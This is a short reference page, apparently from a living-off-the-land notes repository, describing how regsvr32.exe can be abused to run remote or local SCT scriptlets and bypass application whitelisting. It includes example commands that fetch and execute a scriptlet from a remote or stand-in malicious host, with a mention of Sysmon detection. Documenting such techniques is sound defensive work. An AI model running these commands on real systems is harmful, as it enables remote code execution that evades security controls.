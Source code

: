 # regsvr32.exe
## What is it?
*regsvr32.exe is used to register and unregister COM objects in Windows.*

## How to abuse it
- *Executes remote or local scripts (SCT files) to evade security solutions.*
- *Bypasses whitelisting restrictions.*

## Example Attacks
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll

regsvr32.exe /s /n /u /i:http://malicious[.]site/payload.sct scrobj.dll

regsvr32.exe /u /s /i:payload.sct scrobj.dll
```
calc.exe is spawned by regsvr32.exe:

![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)

# References
- https://attack.mitre.org/techniques/T1218/010/
